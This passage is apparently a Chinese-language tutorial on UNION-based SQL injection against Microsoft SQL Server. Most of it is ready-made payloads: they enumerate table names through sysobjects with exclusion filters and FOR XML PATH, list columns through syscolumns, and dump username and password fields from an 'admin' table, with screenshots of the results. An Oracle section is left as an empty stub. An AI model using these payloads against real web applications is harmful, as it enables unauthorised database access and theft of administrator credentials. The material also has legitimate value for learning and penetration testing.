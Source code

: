 ![](http://image.ixysec.com/image/sql/sql029.png)
查询当前数据库所有表名
```
union all select null,(select top 1 name from sysobjects where xtype='U'),null
union all select null,(select '|'%2bname%2b'|' from sysobjects where xtype='U' FOR XML PATH('')),null
union all select null,(select '|'%2bname%2b'|' from 数据库名..sysobjects where xtype='U' FOR XML PATH('')),null
```
union all select null,(select top 1 name from sysobjects where xtype='U'),null
![](http://image.ixysec.com/image/sql/sql026.png)
爆出表名news，在后面加条件and name!='news'就可以爆出不包含news的下一个表
union all select null,(select top 1 name from sysobjects where xtype='U' and name!='news'),null

![](http://image.ixysec.com/image/sql/sql027.png)

然后继续在后面加条件and name!='admin'
```
以此类推可以列举出所有的表
union all select null,(select top 1 name from sysobjects where xtype='U' and name!='news' and name!='admin'),null
```

同样也可以利用FOR XML PATH
```
union all select null,(select '|'%2bname%2b'|' from sysobjects where xtype='U' FOR XML PATH('')),null
```
![](http://image.ixysec.com/image/sql/sql030.png)

 查询字段名
 
```
union all select null,(select id from sysobjects where xtype='U' and name='admin' FOR XML PATH('')),null  //先查询表名admin的ID
union all select null,(select '|'%2bname%2b'|' from syscolumns where id=53575229 FOR XML PATH('')),null  //查询id等于53575229的字段名，53575229是上面查到的所属表的id
```

![](http://image.ixysec.com/image/sql/sql031.png)

![](http://image.ixysec.com/image/sql/sql032.png)

查询数据
```
union all select null,(select '|'%2busername%2b'|'%2bpassword%2b'|' from admin FOR XML PATH('')),null
```

![](http://image.ixysec.com/image/sql/sql033.png)

#### Oracle注入
不熟悉，先挖个坑。。。
